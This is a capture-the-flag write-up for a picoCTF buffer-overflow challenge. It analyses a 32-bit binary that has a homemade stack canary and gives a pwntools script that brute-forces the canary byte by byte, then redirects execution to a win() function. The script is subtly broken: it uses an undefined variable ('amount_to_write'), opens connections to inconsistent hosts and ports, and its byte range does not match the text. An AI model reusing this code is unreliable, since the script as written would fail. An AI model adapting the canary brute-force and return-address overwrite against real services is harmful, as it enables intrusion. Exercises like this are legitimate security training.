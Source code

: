 # BufferOverflow-3

Challenge Description:

> Do you think you can bypass the protection and get the flag?.

> Hint1 : Maybe there's a smart way to brute-force the canary?

## Analyzing code

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5fadb3d053aee24d87bef67c56037d6d9e2b56f2, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

We have a win function which needs to be called and a global_canary buffer which reads 4 bytes from the file `canary.txt` which we can create locally.This will be the canary in our local system which we can specify but the 4 byte canary in the server is what we have to find.

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];

void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```

We can read as many bytes as we want into the buffer `buf` which we have to overflow.There is a manual canary check using memcmp which gives a stack smashing message.

```c
memcpy(canary,global_canary,CANARY_SIZE);
printf("How Many Bytes will You Write Into the Buffer?\n> ");
while (x<BUFSIZE) {
    read(0,length+x,1);
    if (length[x]=='\n') break;
    x++;
}
sscanf(length,"%d",&count);

printf("Input> ");
read(0,buf,count);

if (memcmp(canary,global_canary,CANARY_SIZE)) {
   printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
   exit(-1);
}
printf("Ok... Now Where's the Flag?\n");
```

## Creating exploit

So we have to somehow bruteforce the 4 characters present in the `canary.txt` file which is in the server.We assume that the canary has only readable characters so we limit our decimal values from 65 to 122.

We bruteforce the canary byte by byte so that the memcmp does not give a error message when it checks the canary buffer in the stack with the global_buffer.

The script is given below....

```python
from pwn import *
import struct
import time

def bytes2str(input):
	return str(input,"utf-8")

elf = ELF("./vuln",checksec=False)
#p = elf.process()
p = remote("167.71.138.246", 31172)

success_msg = "Ok... Now Where's the Flag?"
#payload = b'a'*64 + b'BiRd'(Found canary)
payload = b'a'*64

for j in range(4):
	for char in range(65,122):
		byte = struct.pack("B",char)	

		#p = elf.process()
		p = remote("saturn.picoctf.net", 64197)
		p.recvuntil(b"> ")
		p.sendline(bytes(str(amount_to_write) , "utf-8"))

		p.recvuntil(b"Input> ")
		p.sendline(payload + byte)

		output = bytes2str(p.recvall()).strip()

		if success_msg in output:
			print(f"Canary byte success = {byte}")
			payload += struct.pack("B",char)
			break

print(f"Final payload = {payload}")

p = remote("saturn.picoctf.net", 51220)

p.recvuntil(b"> ")
p.sendline(b"1000")
p.recvuntil(b"Input> ")
p.sendline(payload + p32(0x41414141)*4 + p32(0x08049336))

print(p.recvall())


```
